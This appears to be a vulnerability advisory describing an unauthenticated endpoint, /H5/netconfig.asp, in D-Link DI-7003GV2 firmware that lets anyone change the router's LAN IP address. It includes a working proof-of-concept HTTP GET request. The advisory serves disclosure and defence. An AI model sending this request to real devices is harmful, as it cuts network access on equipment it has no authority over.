






# Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 R(68125) has an authentication bypass vulnerability in the `/H5/netconfig.asp` interface. Remote attackers can modify the device’s LAN IP address without authentication, potentially causing loss of access or network disruption.

# Vulnerability details


The processing function for the `H5/netconfig.asp` interface is `sub_497DE4`.

  

The `sub_497DE4` function retrieves the user-input lan_ipaddr, checks if the IP is valid, and then sets it as the lan IP address.

  


# POC

The device login address is 192.168.140.240.

  

Sending the POC data packet does not receive a response, but our login address has actually been modified.

```http
GET /H5/netconfig.asp?lan_ipaddr=192.168.1.99 HTTP/1.1
Host: 192.168.140.240
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

  

The original IP address can no longer be accessed, and the page has been transferred to a new IP address.

  

  
